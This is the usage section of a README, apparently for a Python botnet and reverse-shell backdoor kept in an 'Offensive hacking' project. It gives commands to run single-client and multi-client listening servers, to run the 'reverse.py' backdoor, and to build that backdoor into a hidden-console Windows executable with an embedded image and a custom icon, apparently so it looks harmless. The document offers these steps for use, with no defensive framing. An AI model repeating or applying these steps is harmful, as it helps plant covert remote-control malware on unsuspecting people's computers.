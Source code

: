 ## 🚀 Usage

### Multi-Client Server
```bash
python threaded_server.py <IP_ADDRESS> <PORT>
```

**Example:**
```bash
python threaded_server.py 192.168.1.100 4444
```

**Menu Options:**
1. **Start Multi-Client Server** - Begin listening for client connections
2. **List Connected Clients** - Display all active connections
3. **Select Client** - Choose a client for interaction
4. **Stop Server** - Gracefully shutdown the server
5. **Clear Screen** - Clear terminal while preserving menu
6. **Exit** - Terminate the application

### Single-Client Server
```bash
python server.py <IP_ADDRESS> <PORT>
```

**Example:**
```bash
python server.py 192.168.1.100 1234
```

### Client/Backdoor
```bash
python reverse.py
```

**Note:** Modify the IP and port in `reverse.py` (line 162) to match your server configuration.

### Creating Windows Executable (Using Wine on Linux)

**Basic executable creation:**
```bash
wine /root/.wine/drive_c/users/root/AppData/Local/Programs/Python/Python313/Scripts/pyinstaller.exe --onefile --noconsole reverse.py
```

**Advanced executable with embedded files and custom icon:**
```bash
wine /root/.wine/drive_c/users/root/AppData/Local/Programs/Python/Python313/Scripts/pyinstaller.exe --add-data="/home/kali/Desktop/Offensive hacking/Advanced_Botnet/{image_name.jpg}:." --onefile --noconsole --icon "/home/kali/Desktop/Offensive hacking/Advanced_Botnet/extract_icons/{icon_name.ico}" reverse.py
```

**Note:** For complete Wine setup instructions, see [WINE_SETUP.md](WINE_SETUP.md)
